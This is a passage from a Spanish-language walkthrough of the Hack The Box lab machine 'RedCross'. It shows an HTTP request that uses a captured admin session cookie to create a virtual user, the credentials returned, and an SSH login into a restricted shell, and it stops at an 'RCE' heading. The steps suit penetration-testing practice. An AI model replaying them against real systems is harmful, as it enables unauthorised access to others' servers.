 ![admin users](/img/htb-redcross/http-admin-users.png)

Como podemos observar, se trata de una pagina donde crearemos usuarios virtuales con permisos limitados. Crearemos al usuario miau:

```html
xbytemx@laptop:~/htb/redcross$ http --verify=no -f POST "https://admin.redcross.htb/pages/actions.php" "Cookie:PHPSESSID=oiuslv12i7j2urs7u86etj3bq6; LANG=EN_US; SINCE=1553146196; LIMIT=10; DOMAIN=admin;" username=miau action=adduser
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 111
Content-Type: text/html; charset=UTF-8
Date: Thu, 21 Mar 2019 06:37:05 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Keep-Alive: timeout=5, max=100
Pragma: no-cache
Server: Apache/2.4.25 (Debian)
Vary: Accept-Encoding

Provide this credentials to the user:<br><br><b>miau : E8z6e6iL</b><br><br><a href=/?page=users>Continue</a>

```

Estas credenciales nos servirán para poder ingresar por SSH:

```
xbytemx@laptop:~/htb/redcross$ ssh miau@admin.redcross.htb
The authenticity of host 'admin.redcross.htb (10.10.10.113)' can't be established.
ECDSA key fingerprint is SHA256:yd04sZox5Ub78YD9IP7Yrslhv2TgP7lcFNiOBpZjCfk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'admin.redcross.htb,10.10.10.113' (ECDSA) to the list of known hosts.
miau@admin.redcross.htb's password:
Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ id
uid=2026 gid=1001(associates) groups=1001(associates)
```

Pronto nos daremos cuenta de lo limitada que es esta shell y que no cuenta con muchas herramientas que nos permitan escalar directamente a algún otro usuario o inclusive salir, al menos yo no encontré la manera.

# RCE
